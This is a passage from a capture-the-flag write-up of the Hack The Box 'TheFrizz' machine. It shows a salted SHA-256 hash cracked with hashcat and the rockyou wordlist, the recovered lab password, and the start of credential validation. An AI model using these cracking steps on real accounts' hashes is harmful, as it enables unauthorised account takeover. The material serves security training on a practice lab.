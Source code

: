 https://hashcat.net/wiki/doku.php?id=example_hashes shows that mode `1420` uses the same hashing algorithm, but the example shows that the password hash goes first, then followed by the salt.

![](images/Pasted%20image%2020250822125043.png)

The hash is saved in `hash.txt` in the format `passwordStrong:passwordStrongSalt`

```
fcoomans@kali:~/htb/thefrizz$ cat hash.txt
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

`hashcat` is then used to crack the hash using the `rockyou.txt` wordlist.  Fiona's password is `Jenni_Luvs_Magic23`.

```
fcoomans@kali:~/htb/thefrizz$ hashcat -m 1420 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1420 (sha256($salt.$pass))

<SNIP>
```

### 💰 Post Exploitation

I use `ntpdate` to sync the attack host time with the target.

```
fcoomans@kali:~/htb/thefrizz$ sudo ntpdate frizzdc.frizz.htb
2025-07-21 23:22:31.639881 (+0200) +25200.001351 +/- 0.091444 frizzdc.frizz.htb 10.10.11.60 s1 no-leap
CLOCK: time stepped by 25200.001351
```

And then use `nxc` to validate Fiona's credentials.
